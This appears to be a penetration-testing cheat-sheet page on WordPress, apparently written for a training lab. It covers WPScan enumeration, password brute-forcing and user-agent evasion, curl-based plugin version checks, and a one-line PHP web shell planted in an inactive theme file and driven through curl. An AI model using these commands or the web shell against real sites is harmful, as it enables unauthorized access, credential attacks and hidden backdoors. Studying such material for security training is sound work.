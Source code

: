 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# WordPress

## General Information

### Directories

* `/wp-admin` -> `/wp-login.php`
* `/wp-content/plugins/`
* `/wp-content/themes/`

### Roles & Permissions

<table><thead><tr><th width="192">Role</th><th>Permissions</th></tr></thead><tbody><tr><td>Administrator</td><td>King!</td></tr><tr><td>Editor</td><td>Post management + publish (for all users)</td></tr><tr><td>Author</td><td>Post management + publish (owned posts)</td></tr><tr><td>Contributor</td><td>Post management (owned posts)</td></tr><tr><td>Subscriber</td><td>Browse posts, manage its own profile</td></tr></tbody></table>

## WPScan

> For vulnerability scanning a token is needed from [WPScan](https://wpscan.com/).

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo wpscan --url example.com -e u --passwords password.lst
</strong></code></pre>
{% endtab %}

{% tab title="WAF Evasion" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>sudo wpscan --url example.com --enumerate --api-token &#x3C;TOKEN> --random-user-agent
</strong></code></pre>
{% endtab %}
{% endtabs %}

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) -> uses WP's API to BF (`xmlrpc.php`) (this is faster)
2. wp-login -> attempts to BF `wp-login.php`

{% embed url="https://github.com/wpscanteam/wpscan" %}
WPScan's GitHub repository.
{% endembed %}

{% embed url="https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation" %}
Wiki page for WPScan.
{% endembed %}

## Manual

{% tabs %}
{% tab title="Version" %}
```bash
curl -s http://blog.inlanefreight.local | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s http://blog.inlanefreight.local/ | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s http://blog.inlanefreight.local/ | grep plugins
```
{% endtab %}

{% tab title="Plugin Version*" %}
{% code overflow="wrap" %}
```bash
curl -s http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

\*_Plugin version enumeration_ r_equires Directory listing to be enabled._

## RCE

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?c=id
```
